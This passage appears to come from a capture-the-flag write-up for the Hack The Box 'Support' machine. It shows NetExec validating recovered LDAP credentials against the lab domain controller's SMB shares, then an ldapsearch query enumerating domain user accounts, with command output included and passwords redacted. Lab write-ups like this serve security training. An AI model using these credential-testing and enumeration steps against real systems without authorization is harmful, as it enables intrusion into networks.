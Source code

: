 I’m sure you expected a cool Python script but I am not into cryptography rn.

<img src="/assets/img/support/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">

NetExec confirms that the credentials are valid.

```bash
netexec smb 10.129.230.181 -u ldap -p '<REDACTED>' --shares
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.181  445    DC               [+] support.htb\ldap:<REDACTED> 
SMB         10.129.230.181  445    DC               [*] Enumerated shares
SMB         10.129.230.181  445    DC               Share           Permissions     Remark
SMB         10.129.230.181  445    DC               -----           -----------     ------
SMB         10.129.230.181  445    DC               ADMIN$                          Remote Admin
SMB         10.129.230.181  445    DC               C$                              Default share
SMB         10.129.230.181  445    DC               IPC$            READ            Remote IPC
SMB         10.129.230.181  445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.230.181  445    DC               support-tools   READ            support staff tools
SMB         10.129.230.181  445    DC               SYSVOL          READ            Logon server share
```

# Lateral Movement

Once authenticated, it is possible to query information about the domain via LDAP queries such as users, groups…

```bash
ldapsearch -x -H ldap://10.129.230.181 -b 'DC=support,DC=htb' -w '<REDACTED>' -D 'ldap@support.htb' "(ObjectClass=Person)" | grep -i samaccountname
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: DC$
sAMAccountName: krbtgt
sAMAccountName: ldap
sAMAccountName: support
sAMAccountName: smith.rosario
sAMAccountName: hernandez.stanley
sAMAccountName: wilson.shelby
...
```
